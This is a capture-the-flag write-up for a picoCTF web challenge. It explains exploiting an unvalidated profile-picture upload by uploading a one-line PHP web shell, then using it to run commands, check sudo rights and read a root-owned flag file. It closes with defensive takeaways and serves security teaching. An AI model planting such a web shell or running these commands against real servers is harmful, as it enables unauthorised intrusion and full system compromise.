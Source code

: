 # picoCTF: n0s4n1ty 1

> **Category**: Web Exploitation  
> **Challenge URL**: [http://standard-pizzas.picoctf.net:50934/](http://standard-pizzas.picoctf.net:50934/)  
> **Objective**: Exploit the profile picture upload feature to gain shell access and read the flag from `/root/flag.txt`.

---

## 🚩 Challenge Summary

This challenge involves exploiting an insecure file upload functionality to gain a web shell and eventually read a protected flag using privilege escalation.

---

## 🔍 Walkthrough

### 1. 🔎 Analyzing the Upload Feature

- The website allows profile picture uploads.
- There's no validation on the file type or extension.
- That means arbitrary files, including `.php` scripts, can be uploaded.

---

### 2. 💣 Creating the Web Shell

Create a file named `shell.php` with the following contents:

<?php system($_GET['cmd']); ?>

This shell executes any command passed via the cmd parameter.

3. 📤 Uploading the Payload
Use the provided upload form to upload shell.php.

It should be accepted without any file extension restrictions.

After uploading, the shell is accessible at:

http://standard-pizzas.picoctf.net:50934/uploads/shell.php

4. 🕹️ Confirming Shell Access
To test if the web shell works, visit:
http://standard-pizzas.picoctf.net:50934/uploads/shell.php?cmd=whoami

This command reveals the current user running the server process, likely www-data.

5. 🧑‍💻 Checking for Privilege Escalation
Try checking for sudo permissions:
http://standard-pizzas.picoctf.net:50934/uploads/shell.php?cmd=sudo -l

If the output shows something like:
(ALL) NOPASSWD: ALL

It means the current user can run all commands as root without needing a password.

6. 🏁 Retrieving the Flag
Now use the following commands via the web shell:

List contents of /root:
http://standard-pizzas.picoctf.net:50934/uploads/shell.php?cmd=sudo ls /root

Read the flag:
http://standard-pizzas.picoctf.net:50934/uploads/shell.php?cmd=sudo cat /root/flag.txt

🧠 Useful Commands
Command	Purpose
whoami	Shows current web server user
sudo -l	Lists allowed sudo commands
sudo ls /root	Lists files in root's home directory
sudo cat /root/flag.txt	Reads the flag as root

✅ Takeaways
Never trust user-uploaded files without proper validation.

Always check if you can upload executable code like .php or .jsp.

Poorly configured sudo privileges can lead to full system compromise.

Web shells are powerful—combine them with privilege escalation techniques.

Secure coding practices and permission hardening are essential.
